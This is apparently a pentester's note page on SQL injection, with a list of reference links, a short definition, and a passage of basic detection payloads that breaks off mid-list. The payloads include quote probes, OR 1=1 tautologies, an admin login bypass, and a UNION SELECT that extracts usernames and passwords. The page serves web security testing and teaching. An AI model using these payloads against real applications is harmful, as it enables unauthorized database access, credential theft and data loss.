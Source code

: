 # SQL injection (SQLi)

## Resources

| [https://resources.infosecinstitute.com/topic/dumping-a-database-using-sql-injection/](https://resources.infosecinstitute.com/topic/dumping-a-database-using-sql-injection/)                                                                                                                                                       |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [https://github.com/JohnHammond/miscellaneous/blob/master/SQL\_INJECTION\_CHEATSHEET.md](https://github.com/JohnHammond/miscellaneous/blob/master/SQL_INJECTION_CHEATSHEET.md)                                                                                                                                                     |
| [https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/05-Testing\_for\_SQL\_Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection) |
| [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-command-execution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-command-execution)                                                                       |
| [https://github.com/Y000o/sql\_injection\_basic/blob/master/sql\_injection\_basic\_en.md](https://github.com/Y000o/sql_injection_basic/blob/master/sql_injection_basic_en.md)                                                                                                                                                      |
| [https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet)                                                                                                                                                                                               |
| [https://cheatography.com/binca/cheat-sheets/sql-injection/](https://cheatography.com/binca/cheat-sheets/sql-injection/)                                                                                                                                                                                                           |
| [https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)                                                                                                                                                         |
| [https://www.acunetix.com/websitesecurity/sql-injection2/](https://www.acunetix.com/websitesecurity/sql-injection2/)                                                                                                                                                                                                               |
| [https://www.programmersought.com/article/466012852/](https://www.programmersought.com/article/466012852/)                                                                                                                                                                                                                         |
| [https://resources.infosecinstitute.com/topic/sql-injection-http-headers/](https://resources.infosecinstitute.com/topic/sql-injection-http-headers/)                                                                                                                                                                               |
| [https://github.com/siddicky/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md](https://github.com/siddicky/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md)                                                                                                                                               |
| [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)                                                                                                                                                                                                   |

_SQL injection (SQLi)_ is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. In many cases, an attacker can modify or delete this data, or even compromise the underlying server or other back-end infrastructure, DoS as well. Even read files, write files, RCE...

{% hint style="info" %}
Always try other databases like Oracle and MSSQL, not only MySQL.

Try it on every param.
{% endhint %}

## How to detect  SQLi+ WAFs

{% tabs %}
{% tab title="Basic" %}
<pre class="language-c" data-full-width="true"><code class="lang-c">We generally begin our attack by inputting a single quote into 
every field that we suspect might passits parameter to the database.
<strong>
</strong>'
"
' OR 1=1#
' OR 1=2 -- -
Careful with OR 1=1 in UPDATE, DELETE statements, it could case accidental loss of data
<strong>1' -- -
</strong>1 -- -
-1 -- -
1;--
'
' or 1=1;#
' or 1=1 LIMIT 1;#
admin' or 1=1 LIMIT 1;#
?id='' union select 1,2,username,password,5 from users--
union all select...

